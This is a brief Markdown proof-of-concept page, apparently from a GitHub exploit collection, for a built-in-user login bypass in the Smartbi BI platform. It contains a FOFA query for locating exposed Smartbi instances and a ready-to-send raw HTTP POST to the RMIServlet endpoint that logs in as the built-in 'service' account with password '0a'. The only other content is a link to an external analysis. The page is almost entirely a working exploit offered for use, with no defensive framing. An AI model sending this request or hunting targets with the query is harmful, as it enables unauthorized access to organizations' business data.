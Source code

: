 ## Smartbi 内置用户登陆绕过

## fofa
```
app="SMARTBI"
```

## poc
```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: 172.16.170.231:18080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

className=UserService&methodName=loginFromDB&params=["service","0a"]

```

![image](https://github.com/wy876/POC/assets/139549762/419e82b7-4236-416d-91ef-74caf533e8ae)


## 漏洞分析
- https://exp.ci/2023/06/17/Smartbi-%E5%86%85%E7%BD%AE%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/
